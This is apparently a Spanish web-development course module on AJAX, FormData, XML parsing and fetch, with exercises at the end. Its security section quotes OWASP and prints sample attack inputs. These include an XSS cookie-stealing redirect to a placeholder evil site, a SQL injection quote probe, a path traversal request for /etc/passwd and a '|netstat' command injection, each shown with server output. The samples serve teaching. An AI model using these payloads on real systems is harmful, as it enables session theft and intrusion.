### Ajax avanzado: Cabeceras personalizadas y credenciales

```javascript
var xhr = new XMLHttpRequest();
xhr.open('POST', 'http://someotherdomain.com');
xhr.withCredentials = true; // Cookies
xhr.setRequestHeader('Content-Type', 'text/plain'); // header personal
xhr.onload = function() {
    if (xhr.status === 200) {
        console.log("respuesta:", JSON.parse(xhr.responseText));
    }
};
xhr.send('sometext');
```

**Recursos**
- [XMLHttpRequest.withCredentials](https://developer.mozilla.org/en-US/docs/Web/API/XMLHttpRequest/withCredentials)
- [XMLHttpRequest.setRequestHeader()](https://developer.mozilla.org/en-US/docs/Web/API/XMLHttpRequest/setRequestHeader)
- [Forbidden response header name](https://developer.mozilla.org/en-US/docs/Glossary/Forbidden_response_header_name)
- [Forbidden header name](https://developer.mozilla.org/en-US/docs/Glossary/Forbidden_header_name)


### Ajax: FormData, una gran incentivo

Ejemplo sencillo
```javascript
var formData = new FormData();

formData.append("usuario", "Ulises");
formData.append("id", 123456); // todo se convierte a String

// Contenido desde un <input type="file"> desde el HTML
formData.append("fichero1", fileInputElement.files[0]);

// Fichero creado al vuelo con JavaScript
var content = '<a id="a"><b id="b">hey!</b></a>'; // El contenido del nuevo fichero
var blob = new Blob([content], { type: "text/xml"});

formData.append("otro_fichero", blob);

var request = new XMLHttpRequest();
request.open("POST", "http://myserver.com/submitData");
request.send(formData);
```

Ejemplo partiendo de un formulario existente
```javascript
// Trae el formulario del HTML
var formElement = document.getElementById("myFormElement");
formData = new FormData(formElement);
//Añade más información
formData.append("serialnumber", serialNumber++);
//Enviando los datos...
var request = new XMLHttpRequest();
request.open("POST", "http://myserver.com/submitData");
request.send(formData);
```

**Recursos**
- [Usando Objetos FormData](https://developer.mozilla.org/es/docs/Web/Guide/Usando_Objetos_FormData)
- [Uploading Files with AJAX](http://blog.teamtreehouse.com/uploading-files-ajax)


### Ajax avanzado: Otros usos

**Usando eventos y más...**
```javascript
var request = new XMLHttpRequest();

// Seleccionamos un fichero para subir
data.append('file', document.querySelector('#upload-file').files[0]);

request.addEventListener('load', function(e) {
	console.log("Content-Type:", request.getResponseHeader("Content-Type"))
	console.log(request.response);
});

// Gestión del progreso de subida....
request.upload.addEventListener('progress', function(e) {
	var percent_complete = (e.loaded / e.total)*100;
	console.log("Llevamos un", percent_complete+"%");
});

// Ajustamos la respuesta del servidor a fichero json, evitando la codificación errónea
request.responseType = 'json';
request.open('post', 'upload.php'); 
request.send(data);
```

**Abortar la carga**
```javascript
var xhr = new XMLHttpRequest(),
    method = "GET",
    url = "https://fictizia.com/";
xhr.open(method, url, true);

xhr.send();

if (condicion) {
  xhr.abort();
}
```

**Un mundo de posibilidades...**
- [XMLHttpRequest.responseXML](https://developer.mozilla.org/en-US/docs/Web/API/XMLHttpRequest/responseXML)
- [XMLHttpRequest.responseType](https://developer.mozilla.org/en-US/docs/Web/API/XMLHttpRequest/responseType)
- [XMLHttpRequest.upload](https://developer.mozilla.org/en-US/docs/Web/API/XMLHttpRequest/upload)
- [XMLHttpRequest.timeout](https://developer.mozilla.org/en-US/docs/Web/API/XMLHttpRequest/timeout)
- [XMLHttpRequest.getAllResponseHeaders()](https://developer.mozilla.org/en-US/docs/Web/API/XMLHttpRequest/getAllResponseHeaders)
- [XMLHttpRequest.getResponseHeader()](https://developer.mozilla.org/en-US/docs/Web/API/XMLHttpRequest/getResponseHeader)
- [XMLHttpRequest.overrideMimeType()](https://developer.mozilla.org/en-US/docs/Web/API/XMLHttpRequest/overrideMimeType)


### Lidiar con eXtensible Markup Language (XML)


> XML, siglas en inglés de eXtensible Markup Language, traducido como "Lenguaje de Marcado Extensible" o "Lenguaje de Marcas Extensible", es un meta-lenguaje que permite definir lenguajes de marcas desarrollado por el World Wide Web Consortium (W3C) utilizado para almacenar datos en forma legible. Proviene del lenguaje SGML y permite definir la gramática de lenguajes específicos (de la misma manera que HTML es a su vez un lenguaje definido por SGML) para estructurar documentos grandes. A diferencia de otros lenguajes, XML da soporte a bases de datos, siendo útil cuando varias aplicaciones deben comunicarse entre sí o integrar información.1​
> XML no ha nacido únicamente para su aplicación en Internet, sino que se propone como un estándar para el intercambio de información estructurada entre diferentes plataformas. Se puede usar en bases de datos, editores de texto, hojas de cálculo y casi cualquier cosa imaginable.
> [Wikipedia](https://es.wikipedia.org/wiki/Extensible_Markup_Language)

```xml
<!--
https://www.w3schools.com/xml/cd_catalog.xml
-->
<CATALOG>
    <CD>
        <TITLE>Empire Burlesque</TITLE>
        <ARTIST>Bob Dylan</ARTIST>
        <COUNTRY>USA</COUNTRY>
        <COMPANY>Columbia</COMPANY>
        <PRICE>10.90</PRICE>
        <YEAR>1985</YEAR>
    </CD>
    <CD>
        <TITLE>Hide your heart</TITLE>
        <ARTIST>Bonnie Tyler</ARTIST>
        <COUNTRY>UK</COUNTRY>
        <COMPANY>CBS Records</COMPANY>
        <PRICE>9.90</PRICE>
        <YEAR>1988</YEAR>
    </CD>
</CATALOG>
```

```javascript
function loadXML(url, cb) {
  var request = new XMLHttpRequest();
  request.onreadystatechange = function() {
    if (request.readyState == 4 && request.status == 200) {
        cb(request.responseXML);
    }
  };
  request.open("GET", url, true);
  request.send();
}

function directParser (item, property){
    return item.getElementsByTagName(property)[0].childNodes[0].nodeValue
}

loadXML("cd_catalog.xml", function(data){
    var discos = data.getElementsByTagName("CD");
    
    for (var i = 0; i < discos.length; i++) {
        var disco  = discos[i];
        console.log("---------------------")
        console.log("Título:", directParser(disco, "TITLE"))
        console.log("Artista:", directParser(disco, "ARTIST"))
        console.log("Año:", directParser(disco, "YEAR"))
    }
}); 
```

```
---------------------
Título: Empire Burlesque
Artista: Bob Dylan
Año: 1985
---------------------
Título: Hide your heart
Artista: Bonnie Tyler
Año: 1988
...
```


https://www.w3schools.com/xml/ajax_xmlfile.asp

### Seguridad AJAX

```javascript
// <evil-site>.com/hacked 
// {data:"<script>alert("¡Sorpresa!")</script>"}

var xhr = new XMLHttpRequest();
xhr.open('GET', 'http://<evil-site>.com/hacked');
xhr.onload = function() {
    if (xhr.status === 200) {
    	var respuesta = JSON.parse(xhr.responseText)
        console.log("respuesta:", respuesta);
        document.body.innerHTML = respuesta.data
    }
};
xhr.send();
```

**Normas básicas**
- Usar `innerText` y no `innerHtml`
- Nunca jamas usar `eval`
- Nunca encriptar en cliente
- No confies en la lógica del front


**Recursos**

- [Is Your Website Hackable?](https://www.acunetix.com/websitesecurity/ajax/)
- [AJAX Security Cheat Sheet](https://www.owasp.org/index.php/AJAX_Security_Cheat_Sheet)
- [Testing for AJAX Vulnerabilities (OWASP-AJ-001)](https://www.owasp.org/index.php/Testing_for_AJAX_Vulnerabilities_(OWASP-AJ-001))
- [Understanding Ajax vulnerabilities](https://www.ibm.com/developerworks/library/wa-vulnerabilities/index.html)
- [JSON Hijacking](https://haacked.com/archive/2009/06/25/json-hijacking.aspx/)
- [Ajax Security Basics](https://www.symantec.com/connect/articles/ajax-security-basics)
- [Top 10 Ajax Security Holes and Driving Factors](https://www.helpnetsecurity.com/2006/11/10/top-10-ajax-security-holes-and-driving-factors/)
- [20 high profile sites vulnerable to XSS attacks](https://www.acunetix.com/blog/news/full-disclosure-high-profile-websites-xss/)


### Seguridad AJAX: Tipos de Ataques

**Cross-site scripting (XSS)**
> Cross-site Scripting (XSS) is a technique by which malicious content is injected in the form of HTML/JavaScript code. XSS exploits can be used for triggering various other attacks like cookie theft, account hijacking, phishing, and denial of service.
> The Browser and AJAX Requests look identical, so the server is not able to classify them. Consequently, it won't be able to discern who made the request in the background. A JavaScript program can use AJAX to request a resource that occurs in the background without the user's knowledge. The browser will automatically add the necessary authentication or state-keeping information such as cookies to the request. JavaScript code can then access the response to this hidden request and then send more requests. This expansion of JavaScript functionality increases the possible damage of a Cross-Site Scripting attack.
> Also, an XSS attack could send requests for specific pages other than the page the user is currently looking at. This allows the attacker to actively look for certain content, potentially accessing the data.
> The XSS payload can use AJAX requests to autonomously inject itself into pages and easily re-inject the same host with more XSS (like a virus), all of which can be done with no hard refresh. Thus, XSS can send multiple requests using complex HTTP methods to propagate itself invisibly to the user. 
> [OWASP](https://www.owasp.org/index.php/Testing_for_AJAX_Vulnerabilities_(OWASP-AJ-001))


```html

<script>alert("howdy")</script>
<script>document.location='http://www.example.com/pag.pl?'%20+document.cookie</script>

<!--
This will just redirect the page to an unknown and malicious page after logging into the original page from where the request was made

http://example.com/login.php?variable="><script>document.location='http://<evil-site>/cont.php?'+document.cookie</script>
-->
```


- [DOM based XSS Prevention Cheat Sheet](https://www.owasp.org/index.php/DOM_based_XSS_Prevention_Cheat_Sheet)
- [XSS (Cross Site Scripting) Prevention Cheat Sheet](https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet)
- [OWASP Guide to Data Validation](https://www.owasp.org/index.php/Data_Validation)
- [Testing for DOM-based Cross site scripting (OTG-CLIENT-001)](https://www.owasp.org/index.php/Testing_for_DOM-based_Cross_site_scripting_(OTG-CLIENT-001))
- [Testing for Stored Cross site scripting (OTG-INPVAL-002)](https://www.owasp.org/index.php/Testing_for_Stored_Cross_site_scripting_(OTG-INPVAL-002))
- [Testing for Reflected Cross site scripting (OTG-INPVAL-001)](https://www.owasp.org/index.php/Testing_for_Reflected_Cross_site_scripting_(OTG-INPVAL-001))

**SQL Inyections**
> A SQL injection attack consists of insertion or "injection" of a SQL query via the input data from the client to the application. A successful SQL injection exploit can read sensitive data from the database, modify database data (Insert/Update/Delete), execute administration operations on the database (such as shutdown the DBMS), recover the content of a given file present on the DBMS file system and in some cases issue commands to the operating system. SQL injection attacks are a type of injection attack, in which SQL commands are injected into data-plane input in order to effect the execution of predefined SQL commands. [OWASP](https://www.owasp.org/index.php/Testing_for_AJAX_Vulnerabilities_(OWASP-AJ-001))

```
--- The expected ---
Client:
    URL – Typically this would be something like http://www.example.com/rest/user/change_password
    POST data – {“email”:”xyz@example.com”, “oldpassword”:”oldpassword”, “newpassword”:”newpassword”}

Server:
    Password changed successfully.
```

```
--- SQL Injection Detection ---
Client:
    URL – Typically this would be something like http://www.example.com/rest/user/change_password
    POST data – {“email”:”xyz@example.com‘“,”oldpassword”:”oldpassword”, “newpassword”:”newpassword”}

Important:
    Qualys WAS tests if the web application is vulnerable to SQL injection attack 
    by appending the email parameter with SQL injection payload of a single quote (‘), 
    which results in the following data in the POST request:

Server:
    {"error":{"message":"SQLITE_ERROR: unrecognized token: 
    \"d5b5fffc89f961903fb3c9a173f1b667\"","stack":"Error: SQLITE_ERROR: 
    unrecognized token: \"d5b5fffc89f961903fb3c9a173f1b667\"\n at 
    Error (native)","errno":1,"code":"SQLITE_ERROR","sql":"UPDATE 
    Users set password = '5e9d11a14ad1c8dd77e98ef9b53fd1ba' WHERE 
    email = 'xyz@example.com'' AND 
    password = 'd5b5fffc89f961903fb3c9a173f1b667'"}}
```

```
--- Local File Inclusion Detection ---
Client:
    A typical e-commerce web application might have following request for searching of products:
    POST data – {“query”:”tv”,”order”:”asc”,”limit”:50}

Attack:
    POST data – {“query”:”/../../../../../../../etc/passwd”,”order”:”asc”,”limit”:50}

Server:
    You search for:
    /../../../../../../../etc/passwd</br>root:x:0:0:root:/root:/bin/bash
    bin:x:1:1:bin:/bin:/sbin/nologin
    daemon:x:2:2:daemon:/sbin:/sbin/nologin
    adm:x:3:4:adm:/var/adm:/sbin/nologin
    lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
```

```
--- PHP Command Injection Detection ---
Important: 
    The same e-commerce application is vulnerable to command injection vulnerability in the query parameter
Client:
    POST data – {“query”:”|netstat -an “,”order”:”asc”,”limit”:50}

Server:
    You searched for: |netstat -an
    
    Active Internet connections (servers and established)
    Proto  Recv-Q  Send-Q  Local Address     Foreign Address     State
    tcp      0       0     0.0.0.0:22           0.0.0.0:*        LISTEN
    tcp      0       0     127.0.0.1:631        0.0.0.0:*        LISTEN
    tcp      0       0     127.0.0.1:25         0.0.0.0:*        LISTEN
```


**AJAX Bridging**
> For security purposes, AJAX applications can only connect back to the Website from which they come. For example, JavaScript with AJAX downloaded from site1.com cannot make connections to site2.com. To allow AJAX to contact third-party sites in this manner, the AJAX service bridge was created. In a bridge, a host provides a Web service that acts as a proxy to forward traffic between the JavaScript running on the client and the third-party site. A bridge could be considered a 'Web service to Web service' connection. An attacker could use this to access sites with restricted access. [OWASP](https://www.owasp.org/index.php/Testing_for_AJAX_Vulnerabilities_(OWASP-AJ-001))

**Cross Site Request Forgery (CSRF)**
> CSRF attacks occur when an attacker forces a victim’s web browser to send an HTTP request to any website of his choosing (the intranet is a fair game as well). For example, while reading this post, the HTML/JavaScript code embedded in the web page could have forced your browser to make an off-domain request to your bank, blog, web mail, DSL router, etc. In case such applications are vulnerable, invisibly, CSRF could have transferred funds, posted comments, compromised email lists, or reconfigured the network. A characteristic of CSRF attacks is that the vulnerable application logs' will show what appear as legitimate entries originating from the victim, bearing no trace of the attack. This attack, though not common, has been done before. [OWASP](https://www.owasp.org/index.php/Testing_for_AJAX_Vulnerabilities_(OWASP-AJ-001))

**Denial of Service**
> Denial of Service is an old attack in which an attacker or vulnerable application forces the user to launch multiple XMLHttpRequests to a target application against the wishes of the user. In fact, browser domain restrictions make XMLHttpRequests useless in launching such attacks on other domains. Simple tricks such as using image tags nested within a JavaScript loop can do the trick more effectively. AJAX, being on the client-side, makes the attack easier. [OWASP](https://www.owasp.org/index.php/Testing_for_AJAX_Vulnerabilities_(OWASP-AJ-001))

``

### Datos Abiertos

- [Portal de datos abiertos del Ayuntamiento de Madrid](http://datos.madrid.es/portal/site/egob/)
- [Iniciativa de datos abiertos del Gobierno de España](http://datos.gob.es/)
- [EMT Datos Abiertos](http://opendata.emtmadrid.es/)
- [European Data Portal](https://www.europeandataportal.eu/)
- [Open NASA](https://open.nasa.gov/open-data/)
- [Datos Abiertos de Mexico](https://datos.gob.mx/)
- [The home of the U.S. Government’s open data](https://www.data.gov/)


### Fetch, una alternativa a XMLHttpRequest
- [Compatibilidad nula con IE11](https://caniuse.com/#search=fetch)
- Se hace uso de [promesas](https://developer.mozilla.org/es/docs/Web/JavaScript/Guide/Usar_promesas) y se puede escalar con [Async/Await](https://developer.mozilla.org/es/docs/Web/JavaScript/Referencia/Sentencias/funcion_asincrona)
- Puede gestionar llamadas sin soporte a CORS
- Las peticiones no pueden ser paradas


**GET básico**
```javascript
function ajaxHandler (url, cb){
  fetch(url)
    .then(function(response) {
      return response.json();
    })
    .then(function(data) {
      cb(data)  
    })
    .catch(function(error) {
      console.log(error)
    });  
}

ajaxHandler("http://airemad.com/api/v1/station", function(data){
    console.log("Data:", data)
})
```

**Multimedia**
```javascript
var myImage = document.querySelector('.my-image');
fetch('flowers.jpg').then(function(response) {
  return response.blob();
}).then(function(blob) {
  var objectURL = URL.createObjectURL(blob);
  myImage.src = objectURL;
});
```

**La mágia es `Request`**

```javascript
var request = new Request('http://fictizia.com/subir', {
	method: 'POST', 
	mode: 'no-cors', 
	redirect: 'follow',
	headers: new Headers({
		'Content-Type': 'text/plain',
		'X-My-Custom-Header': 'CustomValue'
	})
});

fetch(request).then(function() { //Gestión de la respuesta });
```

**Subir los datos de un formulario**
```javascript
fetch('https://davidwalsh.name/submit', {
	method: 'post',
	body: new FormData(document.getElementById('comment-form'))
});

```


**Documentacion**
- [Response()](https://developer.mozilla.org/en-US/docs/Web/API/Response/Response)
- [Response.redirected](https://developer.mozilla.org/en-US/docs/Web/API/Response/redirected)
- [Response.clone()](https://developer.mozilla.org/en-US/docs/Web/API/Response/clone)
- [Response.status](https://developer.mozilla.org/en-US/docs/Web/API/Response/status)
- [Response.statusText](https://developer.mozilla.org/en-US/docs/Web/API/Response/statusText)
- [Response.type](https://developer.mozilla.org/en-US/docs/Web/API/Response/type)
- [Response.headers](https://developer.mozilla.org/en-US/docs/Web/API/Response/headers)
- [Body.bodyUsed](https://developer.mozilla.org/en-US/docs/Web/API/Body/bodyUsed)
- [Body.body](https://developer.mozilla.org/en-US/docs/Web/API/Body/body)
- [Body.text()](https://developer.mozilla.org/en-US/docs/Web/API/Body/text)
- [Body.json()](https://developer.mozilla.org/en-US/docs/Web/API/Body/json)
- [Body.formData()](https://developer.mozilla.org/en-US/docs/Web/API/Body/formData)
- [Body.blob()](https://developer.mozilla.org/en-US/docs/Web/API/Body/blob)
- [Body.arrayBuffer()](https://developer.mozilla.org/en-US/docs/Web/API/Body/arrayBuffer)
- [Response.ok](https://developer.mozilla.org/en-US/docs/Web/API/Response/ok)
- [Response.error()](https://developer.mozilla.org/en-US/docs/Web/API/Response/error)

**Recursos**
- [Fetch API by DWB](https://davidwalsh.name/fetch)
- [Introduction to fetch() By Matt Gaunt](https://developers.google.com/web/updates/2015/03/introduction-to-fetch)
- [This API is so Fetching! by Mozilla Hacks](https://hacks.mozilla.org/2015/03/this-api-is-so-fetching/)
- [That's so fetch! by Jake Archibald](https://jakearchibald.com/2015/thats-so-fetch/)
- [Can I use? Fetch](http://caniuse.com/#search=fetch)
- [Basics: Using AJAX with Fetch API](https://medium.com/letsboot/basics-using-ajax-with-fetch-api-b2218b0b9691)
- [Fetch: Polyfill](https://github.com/github/fetch)


### Ejercicios

**1 -** Realiza una pagina web que muestre la cuenta atrás para terminar el curso en días, horas, minutos y segundos.
Objetivos Adicionales:
- Además debería de seguir actualizando la cuenta atrás de manera dinámica.
- Los datos horarios siempre deben mostrarse con dos dígitos, añadiendo un cero a la izquierda cuando sea necesario.


```javascript
// Tu Solución
```


**2 -** Sacar en el html el tiempo meteorológico de Madrid, Barcelona y Valencia. 
Nota: http://openweathermap.org te será de gran ayuda, busca la solución al error 401


```javascript
// Tu Solución
```

**3 -** Jugando con [datos abiertos](http://datos.gob.es/), saquemos los detalles de todos los cuadros eléctricos de Gijón por consola.


```javascript
// Tu Solución
```

```
// Podemos encontrar errores en las respuestas.
// cuadromando[5] ...

    calle: "Faustina &#193;lvarez Garc&#237;a"
    latitud: 43.526376045
    longitud: -5.685764873
    numero: ""
    potencia_w_: 17321

// ...
```


### Proyecto Personal


